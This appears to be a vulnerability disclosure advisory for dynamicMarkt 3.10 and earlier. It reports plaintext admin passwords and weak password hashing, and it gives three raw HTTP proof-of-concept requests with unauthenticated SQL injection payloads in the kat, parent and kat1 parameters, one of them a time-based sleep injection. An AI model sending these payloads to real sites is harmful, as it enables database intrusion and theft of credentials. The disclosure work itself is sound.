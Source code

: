 # Multiple Vulnerabilities in dynamicMarkt Software
I was unable to contact the vendor. The homepage returns 500 Internal Server Error for at least 10 month now.

You should know, that the admin backend password is stored in plaintext inside the database!
The user passwords are hashed using MD5. dynamicMarkt sets a weak 7 char long password by default.

These vulnerabilities affects *dynamicMarkt* <= 3.10.

## SQL Injections (unauthenticated)

### *kat* param
```
GET /index.php?page=category&topic=offers&do=show&kat=1169231751%20or%202819%3d02819 HTTP/1.1
Host: localhost
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US,en-GB;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Cache-Control: max-age=0
Cookie: dm_lang=deu
```

### *kat1* param (unauthenticated)
```
POST /index.php HTTP/1.1
Host: localhost
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US,en-GB;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 43
Cookie: dm_lang=deu

art=kaeufer&kat1=(select*from(select(sleep(20)))a)&Submit=Weiter&page=signup
```

### *parent* param (unauthenticated)
```
GET /index.php?page=category&action=&topic=offers&uid=36&oid=&do=shop&art=2&parent=020911029%20or%202590%3d02590&line=neu HTTP/1.1
Host: localhost
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US,en-GB;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Cache-Control: max-age=0
Cookie: dm_lang=deu
```
